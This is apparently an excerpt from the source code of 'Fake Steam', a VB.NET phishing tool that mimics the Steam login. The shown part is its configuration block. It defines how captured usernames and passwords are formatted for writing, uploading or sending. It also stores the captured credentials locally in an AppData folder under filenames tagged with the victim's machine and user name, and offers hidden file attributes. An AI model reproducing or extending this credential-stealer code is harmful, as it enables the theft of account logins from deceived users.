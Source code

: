 Note: The names of the available cultures are specified in the **DetectLanguage** method of the **SteamHelper** class.

#### Username/password settings:

    #Region " Username and Password Configuration "

        ''' <summary>
        ''' The string format to write/upload/send the captured username/password.
        ''' </summary>
        Public Shared ReadOnly UserPassTextFormat As String =
            <a><![CDATA[
                Username={0}
                Password={1}
            ]]></a>.Value

    #End Region

#### Local storage settings:

    #Region " Local Storage Configuration "

        ''' <summary>
        ''' If set to <c>True</c>, enables local storage of the username/password.
        ''' </summary>
        Public Shared ReadOnly EnableLocalStorage As Boolean = True

        ''' <summary>
        ''' The local directory where to write the file.
        ''' If the directory doesn't exists, it will try to create it.
        ''' </summary>
        Public Shared ReadOnly LocalDir As String =
            Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData), " Fake Steam")

        ''' <summary>
        ''' The file name to store the data on the local directory.
        ''' By default is "FakeSteam_{ComputerName}_{Username}_{Day}-{Month}-{Year}_{Hour}-{Minute}-{Seconds}.txt"
        ''' </summary>
        Public Shared ReadOnly LocalFilenameFormat As String =
            String.Format("FakeSteam_{0}_{1}_{2}.txt", Environment.MachineName, Environment.UserName, DateTime.Now.ToString("dd-MM-yyyy\_hh-mm-ss"))

        ''' <summary>
        ''' Sets the local directory attributes, such as system or hidden.
        ''' </summary>
        Public Shared ReadOnly DirAttribs As FileAttributes = FileAttributes.Normal

        ''' <summary>
        ''' Sets the local file attributes, such as readonly or hidden.
        ''' </summary>
        ''' 
        Public Shared ReadOnly FileAttribs As FileAttributes = FileAttributes.Normal

        ''' <summary>
        ''' Sets the textfile encoding.
        ''' </summary>
        Public Shared ReadOnly FileEncoding As Encoding = Encoding.Default ' ANSI Encoding.
